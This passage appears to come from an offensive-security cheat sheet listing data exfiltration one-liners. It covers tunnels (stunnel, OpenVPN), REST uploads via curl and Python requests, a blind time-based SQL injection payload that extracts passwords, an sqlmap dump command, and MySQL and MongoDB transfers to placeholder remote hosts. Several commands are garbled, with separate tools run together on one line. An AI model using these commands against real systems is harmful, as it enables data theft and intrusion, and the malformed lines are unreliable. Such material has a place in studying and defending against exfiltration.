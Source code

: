 #### Using stunnel for SSL/TLS Encryption
- **Exfiltrate Data Over an SSL Tunnel Using stunnel:**
	```bash
	stunnel /etc/stunnel/stunnel.conf nc <stunnel_ip> <stunnel_port> < /path/to/local_file
	```

#### OpenVPN
- **Set Up a VPN Tunnel and Transfer Files Securely:**
	```bash
	openvpn --config /path/to/config.ovpn scp /path/to/local_file <username>@<vpn_ip>:/path/to/remote_directory
	```

#### REST APIs
- **Upload Data via a REST API Using Curl:**
	```bash
	curl -X POST -H "Content-Type: application/json" -d @/path/to/local_file http://<api_ip>/upload
	```
- **Exfiltrate Data Using a Custom REST API Client:**
	```bash
	import requests url = "http://<api_ip>/upload" files = {'file': open('/path/to/local_file', 'rb')} r = requests.post(url, files=files) print(r.status_code)
	```

# Data Exfiltration via SQL Databases

#### SQL Injection
- **Exfiltrate Data Using Blind SQL Injection:**
	```bash
	curl "http://<target_ip>/vulnerable_page?id=1 AND 1=IF((SELECT ascii(SUBSTRING((SELECT password FROM users LIMIT 1), 1, 1))=97), SLEEP(5), 0)"
	```
- **Automate SQL Injection Exfiltration with SQLMap:**
	```bash
	sqlmap -u "http://<target_ip>/vulnerable_page?id=1" --dump
	```

#### MySQL
- **Exfiltrate Data by Writing to a Remote MySQL Server:**
	```bash
	mysql -u user -p -h <remote_ip> -e "LOAD DATA LOCAL INFILE '/path/to/local_file' INTO TABLE remote_table;"
	```
- **Exfiltrate Data Using MySQL Dump:**
	```bash
	mysqldump -u user -p database_name | mysql -u user -p -h <remote_ip> remote_database
	```

#### MongoDB
- **Exfiltrate Data from MongoDB:**
	```bash
	mongo --host <remote_ip> --eval 'db.collection.find().forEach(printjson);' > /path/to/local_file
	```
- **Export MongoDB Data and Exfiltrate:**
	```bash
	mongoexport --host <remote_ip> --db database_name --collection collection_name --out /path/to/local_file
	```
